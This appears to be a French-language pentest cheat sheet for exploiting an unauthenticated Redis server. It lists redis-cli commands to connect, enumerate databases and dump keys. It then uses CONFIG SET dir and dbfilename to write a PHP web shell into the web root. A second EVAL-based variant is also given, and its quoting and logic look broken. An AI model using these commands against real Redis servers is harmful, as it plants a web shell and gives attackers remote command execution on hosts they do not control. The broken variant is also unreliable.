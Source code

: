 # Redis

Connect to redis server

```sh
redis-cli -h <host> -p <port>
```

Pour voir combien de bases sont configurées :

```sh
CONFIG GET databases
```

Pour voir quelles bases contiennent des données :

```sh
INFO keyspace
```

Voir le contenu

```sh
KEYS *
```

Ecrire un script PHP dans un fichier du serveur web.

```sh
CONFIG SET dir /var/www/html
CONFIG SET dbfilename rshell.php
SET dummy "<?php system($_GET['cmd']); ?>"
save
```

OU

```sh
EVAL "return redis.call('set', '/var/www/html/test.php', '<?php exec('bash code') ?>')" 0
```